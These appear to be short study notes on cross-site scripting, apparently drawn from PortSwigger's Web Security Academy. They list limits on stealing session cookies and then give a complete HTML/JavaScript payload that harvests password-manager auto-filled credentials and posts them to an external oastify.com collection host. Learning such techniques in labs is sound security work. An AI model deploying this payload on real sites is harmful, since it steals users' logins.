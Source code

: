## Exploiting cross-site scripting to steal cookies
Limitations:
* The victim might not be logged in.
*  Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
* Sessions might be locked to additional factors like the user's IP address.
* The session might time out before you're able to hijack it.

## Exploiting cross-site scripting to capture passwords
These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain.

```html
<input type="text" name="username">
<input type="password" name="password" onchange="dothis()">

<script>
    function dothis() {
    var username = document.getElementsByName('username')[0].value
    var password = document.getElementsByName('password')[0].value

    var data = new FormData();
    data.append('comment', `${username}:${password}`);

    fetch('https://ki68cr7k5a185wzf6dcqrlo63x9oxold.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
    };
</script>
```

#to-be-continued 
https://portswigger.net/web-security/cross-site-scripting/exploiting